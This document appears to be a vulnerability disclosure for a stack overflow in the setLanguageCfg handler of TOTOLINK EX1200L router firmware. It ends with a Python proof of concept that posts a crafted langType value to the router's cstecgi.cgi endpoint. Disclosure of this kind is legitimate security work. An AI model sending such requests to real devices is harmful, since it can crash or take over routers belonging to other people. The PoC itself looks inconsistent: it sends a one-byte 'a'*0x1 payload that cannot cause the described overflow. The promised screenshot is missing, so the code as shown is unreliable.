

## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

totolink EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

A stack overflow vulnerability exists in the `sub_4231ac`(`setLanguageCfg`) function of program `/www/cgi-bin/cstecgi.cgi` in EX1200L V9.3.5u.6146_B20201023. The function receives the `langType` parameter from the user request and splices it into the variable `v7` on the stack, causing a stack overflow.


## PoC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"


cookie = {"Cookie":"uid=1234"}
data = {
"topicurl":"setLanguageCfg",
"langType":"a"*0x1,
"langFlag":"1",
}

response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print(response)
```

Here is a screenshot of stack overflow:


